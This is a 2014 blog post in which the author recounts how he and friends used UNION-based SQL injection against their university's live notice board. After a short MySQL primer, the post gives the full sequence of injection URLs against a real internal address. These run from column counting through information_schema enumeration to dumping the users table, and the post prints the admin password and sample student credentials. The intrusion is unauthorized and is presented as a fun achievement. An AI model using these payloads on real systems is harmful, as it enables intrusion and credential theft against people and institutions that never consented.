 ```yaml
---
layout: post
title: How we hacked our university notice board?
date: 2014-07-10 06:44:56.000000000 +05:30
type: post
published: true
status: publish
author: Nagesh Podilapu a.k.a H4rryp0tt3r
assetID: 33ed6b071854135c17600a86a1d8876a
---
```


It's been nearly 3 months since my last post. Today I thought It will be helpful for the guys who are interested in Cyber Security, If I write about UNION Based SQLi that we did on our university notice board.
A little learning part before we jump on to exploitation.

<pre>
<b># Just selecting 1 2 and 3</b>
mysql> select 1,2,3;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+

<b># database() is a MySQL function to get current database name.</b>
mysql> select database();
+-----------------+
| database()      |
+-----------------+
| UNIONBased_SQLi |
+-----------------+

<b># Just selecting 1,database(),3</b>
mysql> select 1,database(),3;
+---+-----------------+---+
| 1 | database()      | 3 |
+---+-----------------+---+
| 1 | UNIONBased_SQLi | 3 |
+---+-----------------+---+

<b># group_concat() is a MySQL function which concatenates all the rows</b>
mysql> select group_concat(username,"-",password) from users;
+---------------------------------------------------+
| group_concat(username,"-",password)               |
+---------------------------------------------------+
| admin-admin@onb,N090001-rgukt123,N090002-rgukt123 |
+---------------------------------------------------+

<b># Example of a MySQL UNION operator. </b>
mysql> select 1,2,3 UNION select 4,5,6;
+---+---+---+
| 1 | 2 | 3 |
+---+---+---+
| 1 | 2 | 3 |
| 4 | 5 | 6 |
+---+---+---+

<b># UNION only works when two select statements have the same no.of columns.</b>
mysql> select 1,2,3 UNION select 5,6;
ERROR: The used SELECT statements have a different number of columns

<b># To nullify the result of LHS select statement I appended a condition 1=0
 which is false. So the results include only RHS select statement results.</b>
mysql> select username from users where sno=1 and 1=0 UNION select 1;
+----------+
| username |
+----------+
| 1        |
+----------+
</pre>

Good, now let's have a glance at why we started this.

After doing brute-force attack on a web page for getting flag in a [CTF][ctf-about-link]{:target="_blank"}, we thought It would give us admin rights If we can do the same attack on our notice board too. But later we realized that we can't just get the admin password by a filthy brute-force attack.

So we explored that website a bit and noticed that there is a page `notice_view.php?id=1` which takes `id` as GET parameter.

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/onb.png" description="notice_view.php page" %}

As we are web developers we came to an estimation that the backend MySQL query might be

{% highlight text %}
select * from tablename where somecolumnname=$_GET["id"];
{% endhighlight %}

Yeah... That one seems compromising and we just gave it a shot with our best injection payload i.e (single quote) into the GET parameter id. Viola!!

{% highlight text %}
You have an error in your SQL syntax; check the manual that corresponds
to your MySQL server version for the right syntax to use near ''' at line 1
{% endhighlight %}

Yes! This is vulnerable & we can proceed with exploitation. The best part starts now.

Our next step is to find database name that is used for storing passwords. Exciting isn't it? And we used the below payload

{% highlight text %}
1 and 1=0 UNION select 1,2,3,4,5 --
{% endhighlight %}

So the resultant query becomes

{% highlight text %}
select * from sometablename where
somecolumnname=1 and 1=0 UNION select 1,2,3,4,5 --;
{% endhighlight %}

That payload resulted in an error

{% highlight text %}
The used SELECT statements have a different number of columns
{% endhighlight %}

Yeah it worked. To apply union on 2 SQL query's both must have same no.of columns. But here we didn't know the no.of columns, so to find no.of columns we tried imagining from 1 to some number until which we will not get an SQL error. We used below payloads, and 3rd one made it!

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2--
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,2,3--
{% endhighlight %}

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/injected.png" description="First Injection point" %}

So the backend query which is fetching notices is selecting 3 columns, but the web page is displaying only 2 & 3 (So these columns are vulnerable) and anything we inject in those columns that will display the result of that injected query on web page.

Cool, so now we can inject a code that will print database name on web page. There is a MySQL function `database()` which will display the current selected database. So we can use that function in any of the columns 2 (or) 3.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION select 1,database(),3--
{% endhighlight %}

And result of this query is..

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/database.png" description="Database name being displayed on page" %}

We have the database name `Notices`, now we have to find the table name for that we will use the mysql default Database which stores information of all the databases in it. So we have to extract all the information related to the database `Notices`. In order to do so we have used this payload

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and
1=0 UNION select 1,group_concat(TABLE_NAME),3 from information_schema.TABLES
where TABLE_SCHEMA='Notices' --
{% endhighlight %}

And the result is

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/tables.png" description="Table names being displayed on page" %}

Now we got all the tables in `Notices` Database and those are `notices, users`. This 'users' table seems interesting and we chose to see the contents of 'users' table first. But before that we should know the columns names of that table, information_schema is our friend now.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0 UNION
select 1,group_concat(COLUMN_NAME),3 from information_schema.COLUMNS where
TABLE_NAME='users' AND TABLE_SCHEMA='Notices'--
{% endhighlight %}

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/columns.png" description="Column names being displayed on page" %}

Now we just need to print password column from that table, used below payload.

{% highlight text %}
http://10.2.42.242/ONB/notice_view.php?id=1 and 1=0
UNION select 1,group_concat(username,"-",password),3 from users --
{% endhighlight %}

Result is...

{% include image.html url="/assets/33ed6b071854135c17600a86a1d8876a/passwords.png" description="Passwords being displayed on page" %}

Ah! Finally, the admin password is on page and it is: `admin@onb`

And in this post I keep on mentioning we. So we are

[Nageswara Rao Podilapu (Me)](https://www.facebook.com/H4rryp0tt3r7){:target="_blank"} <br>
[Anesh Parvatha](https://www.facebook.com/anesh.cse){:target="_blank"} <br>
[Ambati Bharath](https://www.facebook.com/bharath.hussy){:target="_blank"}

[ctf-about-link]: https://ctftime.org/ctf-wtf/
